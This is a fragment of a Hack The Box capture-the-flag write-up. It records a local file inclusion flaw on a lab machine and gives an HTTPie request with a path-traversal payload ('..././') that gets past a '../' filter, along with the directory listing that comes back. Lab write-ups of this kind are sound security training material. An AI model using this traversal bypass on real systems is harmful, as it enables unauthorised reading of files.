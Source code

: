 #### 1.1. Target

- URL: `https://www.hackthebox.eu/home/machines/profile/149`
- IP: `10.10.10.87`


#### 1.2. Entry point

Application is vulnerable to LFI (local file inclusion). Attacker can read arbitrary files on the system, outside the web-app folder:
```
# http -f http://10.10.10.87/dirRead.php path=..././..././ -b
[
    ".",
    "..",
    "cache",
    "empty",
    "lib",
    "local",
    "lock",
    "log",
    "opt",
    "run",
    "spool",
    "tmp",
    "www"
]
```
Note: `../` gets truncated so `..././` needs to be used to bypass the WAF.

Vulnerable endpoints:
- `http://10.10.10.87/dirRead.php` with POST parameter `path=`
- `http://10.10.10.87/fileRead.php` with POST parameter `file=`

